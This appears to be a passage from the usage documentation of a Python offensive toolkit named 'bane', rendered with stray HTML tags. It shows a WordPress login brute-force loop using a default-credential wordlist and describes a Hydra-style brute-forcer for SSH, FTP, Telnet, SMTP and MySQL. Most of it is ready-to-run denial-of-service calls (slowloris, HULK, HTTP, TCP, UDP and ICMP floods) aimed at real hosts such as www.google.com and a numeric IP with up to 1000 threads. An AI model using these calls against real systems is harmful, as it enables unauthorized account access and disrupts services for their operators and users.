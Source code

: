 

<br><h3>WORDPRESS ADMIN LOGIN:</h3>


>>>wordlist=["admin:admin","admin:12345","root:root"]
<br>for x in wordlist:
<br> user=x.split(":")[0]
<br> pwd=x.split(":")[1]
<br> print'"[*]Trying:",user,pwd
<br> if bane.wpadmin("http://example.com/",username=user,password=pwd)==True:
<br>  print'[+]Found'
<br>  break
<br> else:
<br>  print'[-]Failed'



<br><h3>HYDRA TOOL:</h3> 

<br>hydra is a famous tool that is widely used for bruteforce attacks. here is a python version of it in python based on the above functions.
<br>it takes the following parameters:

<br>proto:set by default to: "ssh", it can be set to: "ftp","ssh","telnet","smtp","mysql"<br>p: target port, set by default to: 22<br>wl: the list contains usernames and passwords seperated by ":", ex: ["admin:admin","admin:12345","root:root"]



<br><h1>DoS / DDoS:</h1> (useful link: https://en.wikipedia.org/wiki/Denial-of-service_attack )



>>>bane.hulk('www.google.com',threads=1000) #hulk attack

>>>bane.proxhulk('www.google.com',threads=1000) #hulk attack with http proxies

>>>bane.slowloris('www.google.com',p=80,threads=50) #slowloris attack

>>>bane.xerxes('www.google.com',p=443,threads=500) #xerxes attack

>>>bane.httpflood('www.google.com',p=80,threads=1000) #http flood

>>>bane.lulzer('www.google.com',p=80,threads=1000) #http flood with proxies

>>>bane.tcpflood('www.google.com',threads=1000) #tcp flood

>>>bane.udp('50.63.33.34',p=80) #udp flood

>>>bane.doser('https://www.google.com',threads=500)

>>>bane.proxdoser('https://www.google.com',threads=500)

>>>bane.torshammer('www.google.com',p=80,threads=1000)

>>>bane.slowread('www.google.com',p=80,threads=1000)

>>>bane.apachekiller('www.google.com',p=80,threads=500)

>>>bane.goldeneye('www.google.com',p=80,threads=1000)

>>>bane.medusa('www.google.com',p=80,threads=1000)

>>>bane.icmp('50.63.33.34',p=80,threads=100)
